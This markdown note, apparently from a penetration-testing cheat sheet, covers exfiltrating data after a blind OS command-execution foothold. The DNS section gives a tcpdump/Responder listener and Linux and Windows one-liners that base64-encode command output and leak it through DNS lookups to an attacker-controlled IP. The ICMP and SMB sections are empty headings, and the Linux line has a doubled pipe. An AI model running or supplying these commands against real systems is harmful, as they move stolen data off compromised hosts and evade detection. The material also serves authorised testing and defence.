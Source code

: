 # General - Data exfiltration

The following note details the technics and tools that can be used to exfiltrate
data through an indirect channel.

This note focus on data exfiltration through a blind OS RCE.  

### ICMP

### DNS

DNS queries can be used to exfiltrate data through the requested domain name.

```
# Listener
tcpdump -i <INTERFACE> udp port 53
# Every Responder's servers can be turned off in Responder.conf, except for the DNS service
responder -i <INTERFACE>

# Linux
<COMMAND> | | while read data; do datab64=`echo $data | base64 -w 0`; host $datab64.ex.data <IP>; done

# Windows
nslookup <%VARIABLE%> <IP>
# The DOS for loop only output the number of columns specified by the tokens parameter. 1 = %a, 2 = %b, etc.
for /f "tokens=1,2,3" %a in ('<COMMAND>') do nslookup %a.%b.%c <IP>
```

### SMB
